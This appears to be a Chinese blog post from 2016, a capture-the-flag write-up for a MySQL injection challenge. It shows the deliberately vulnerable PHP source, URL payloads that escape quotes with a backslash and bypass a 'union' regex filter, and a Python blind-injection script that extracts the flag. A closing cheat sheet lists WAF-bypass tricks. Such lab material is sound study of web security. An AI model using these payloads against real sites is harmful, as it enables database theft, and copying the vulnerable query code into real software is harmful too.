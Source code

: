 ```yaml
---
title: 三个白帽子之我是李雷雷，我在寻找韩梅梅系列 1--writeup
url: 476.html
id: 476
categories:
  - hack_ctf
date: 2016-06-30 12:24:06
tags:
  - wirte-up
  - ctf
  
---
```


这是一个mysql的注入绕过类题目,相对来说是很简单的题目了,由于近来在学习基于正则的waf的绕过技巧,此处就拿此题作引子,引出下面的各种姿势吧.

<!--more-->

<h2><strong>0x1.先看题目:</strong></h2>

[php]
<?php

/*

create table baimaozi (intro varchar(40),name varchar(20),nick varchar(20));
insert into baimaozi values (md5('flag'),'wonderkun','wonderkun');
create table `flag` (`flag` varchar(32));
insert into flag values (md5('flag'));

*/

function sanitize($input){
$blacklist = array('\'', '"', '/', '*', '.');
return str_replace($blacklist, '', $input);
}
$host = "localhost";
$user = "root";
$pass = "123456";
$db = "sangebaimao";

$connect = mysql_connect($host, $user, $pass) or die("Unable to connect");
mysql_select_db($db) or die("Unable to select database");

$name = isset($_GET['name'])?sanitize($_GET['name']):die();

$query = 'select intro from baimaozi where name=\''.$name.'\' or nick=\''.$name.'\' limit 1';

echo $query;
if (preg_match('/[^a-zA-Z0-9_]union[^a-zA-Z0-9_]/i', $name) || preg_match('/^union[^a-zA-Z0-9_]/i', $name)){
echo "not allow";
exit;
}

$result = mysql_query($query);

$row = mysql_fetch_array($result);
echo $row[0];

[/php]

看了一下第一处过滤:

[php]
function sanitize($input){
 $blacklist = array('\'', '"', '/', '*', '.');
 return str_replace($blacklist, '', $input);
}
[/php]

可以看到过滤了,单引号,双引号,/,*,还有点;
再看下面构造的sql语句:

[php]
$query = 'select intro from baimaozi where name=\''.$name.'\' or nick=\''.$name.'\' limit 1';
[/php]

变量是用单引号包裹的,注入的时候却过滤了单引号,这就出现了一个问题,怎么在没有单引号的情况下闭合掉单引号???

思路是这样的,这个sql语句有4个单引号,其中两个两个配对,总共是两对,既然我们没有办法去输入单引号来闭合他原来的单引号,那么我们是不是可以通过干掉单引号来闭合单引号呢?

观察发现真的没有过滤 '\'(反斜杠),所以我们可以通过反斜杠去干掉单引号:先传入

[php] http://127.0.0.1/index.php?name=\[/php]

打印出来sql语句如下:

[php]select intro from baimaozi where name='\' or nick='\' limit 1[/php]

但是个sql语句报错了,因为第二个单引号被干掉了,第一个单引号和第三个单引号组成了一对,\' limit 1 就多余了..所以报错了.
所以考虑把\' limit 1 注释掉;

[php]http://127.0.0.1/index.php?name=%23\[/php]

sql语句如下:

[php]select intro from baimaozi where name='#\' or nick='#\' limit 1[/php]

<span style="color: #ff0000;">注意:第一个#包裹在单引号中间,没有起到注释的作用,第二个#才是注释.这下就不报错了.</span>

[php]

payload:http://127.0.0.1/index.php?name=%20or%20sleep(3)%23\  //成功延时

[/php]

<h2></h2>
<h2>0x2. 可以注入了,但是怎么出数据??</h2>
来看这个正则:

[php]

if (preg_match('/[^a-zA-Z0-9_]union[^a-zA-Z0-9_]/i', $name) || preg_match('/^union[^a-zA-Z0-9_]/i', $name)){
echo "not allow";
exit;
}

[/php]

如果^用于中括号表达式的第一个字符,表示对字符集取反,用于中括号外面表示以这个字符开头:

[^a-zA-Z0-9_]匹配除了这些字符之外的字符,^union 匹配由union开头的字符.
所以想绕过union仅有两种可能:
<ol>
 	<li>$name不是以union开头,但是其前或后至少要有一个字符在[a-zA-Z0-9_]的范围之内.</li>
 	<li>$name是用union开头,但是其后面的字符在[a-zA-Z0-9_]的范围之内</li>
</ol>
有两种解法:

<strong>解法一:绕过union的限制</strong>

某位大牛发现了下面方法:

<img class="alignnone size-full wp-image-483" src="/uploads/2016/06/深度截图20160630195653.png" alt="深度截图20160630195653" width="946" height="481" />

看到了吗 ?  由于过滤了'.',所以第一种payload不能用;

给两种payload:

[php]

payload1:http://127.0.0.1/index.php?name=or%20name=\Nunion%20select%20flag%20from%20flag%23\

payload2:http://127.0.0.1/index.php?name=or%20name=1E1union%20select%20flag%20from%20flag%23\

[/php]

<strong>解法二:bool盲注</strong>

由于比较简单,直接给python代码:

[python]
import requests 
perstr="0123456789abcdef"
flag=''
for i in range(1,33):
 for j in perstr:
 url="http://127.0.0.1/threebaimao/source1.php?name= or 1=if(ascii(substring((select flag from flag),{i},1))={j},1,0)%23\\".format(i=str(i),j=ord(j)) 
 
 res=requests.get(url)

 if "327a6c4304ad5938eaf0efb6cc3e53dc" in res.text :
 flag+=j
 break
 print flag
[/python]

<h2>0x3,mysql注入的其他绕过技巧(持续更新中....)</h2>

###  mysql常用的注释
```sql
 --+ , /**/ ,  # , -- -, ;%00 , `, 
```
### mysql 过滤了空格的绕过方法
```sql
1.可以用()绕过,但是有局限性,括号是用来包围子查询的,因此任何计算出来的结果都可以用括号包围起来
2.%09, %0a, %0b , %0c ,%0d , %a0  (%a0 不会被php的\s匹配,所以有时候有奇效), /**/ ,  
3.用多个空格代替一个空格
4.利用内敛注释:/*!select*//*!user*//*!from*//*!mysql.user*/;
```
### 过滤了 = 的绕过:
```sql
1.用函数绕过,: strcmp(),locate(s1,s) , position(s1 in s) , instr(s,s1),  greatest()
2.用 > , <  
3. like ,  regexp , in 
in 的用法 :select 'user' in ('user');    字符串都是可以用16进制代替的. 
```
###  等价替换的一些函数
```
hex() ,  bin()  => ascii()
sleep()      =>  benchmark() 
mid()  ,  substr()   =>  substring()
```
###  绕过逗号的情况  
```
select   substr(user()from(1)for(1)) ;
```
### 绕过某些关键字的过滤
```sql
select => sel%00ect   # 在ctf中出现好几次了,但是这不是通法,至少在我的mysql中是不行的.
select => /*!select*/  # may be  可以绕过啊
```
### order by 子句的注入:

```sql
1. select user,host from mysql.user  order by (case/**/when((1=2))then(user)else(host)end);

2. 报错注入 :  select user,host from mysql.user  order by (extractvalue(user(),concat(0x3a,user(),0x3a))); 

3. select user,host from mysql.user  order by if(1,user,host);  跟第一个差不多

4. select user,host from mysql.user  order by 1,(select case when (1=1) then 1 else 1*(select user from mysql.user) end )=1;
select user,host from mysql.user  order by 1,(select case when (1=2) then 1 else 1*(select user from mysql.user) end )=1;  
```

### mysql 的一个黑魔法
```sql
select {x user} from {x mysql.user};
select user from mysql.user where user=~18446744073709551615;
select  id from ctf.user where id=(sleep(ascii(mid(user()from(2)for(1)))=109)); (没有用到空格,逗号,大于或者小于号,非常实用!)
```

